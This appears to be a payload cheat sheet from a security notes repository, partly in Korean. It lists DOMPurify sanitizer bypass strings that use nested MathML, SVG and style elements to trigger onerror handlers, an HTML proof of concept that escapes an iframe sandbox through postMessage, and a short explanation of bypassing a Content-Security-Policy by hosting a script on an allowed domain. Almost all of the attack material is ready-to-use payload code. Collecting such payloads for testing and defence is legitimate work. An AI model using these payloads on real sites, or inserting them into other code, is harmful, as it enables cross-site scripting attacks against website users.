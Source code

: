 ## DOMPurify Bypass<br>
```html
<form><math><mtext><form><mglyph><style></math><img src onerror=alert(1)></style></mglyph></form></mtext></math></form>
<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><![CDATA[</style><img title="]]&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

---
## <span style="color:#21C587"></span> Iframe Sandbox Bypass<br>
  
```html
<!doctype html>
<html>
  <head>
    <title>iframe sandbox bypass</title>
    <script>
        async function exploit() {
            const cmd="xss payoad"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="exploit()" />
      <iframe name='pocas' src="https://domain/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```

---
## CSP Bypass<br>
<span style="color:#21C587">&#35;</span> Use an accepted domain<br>
```
Content-Security-Policy: script-src 'self' http://141.164.52.207
```
위와 같이 나 자신과 특정(http://141.164.52.207) 도메인에서 오는 스크립트는 실행이 가능한 경우, 해당 서버에 파일(xss poc)을 업로드하고, poc 코드를 불러오면 위와 같은 CSP를 우회할 수 있습니다.
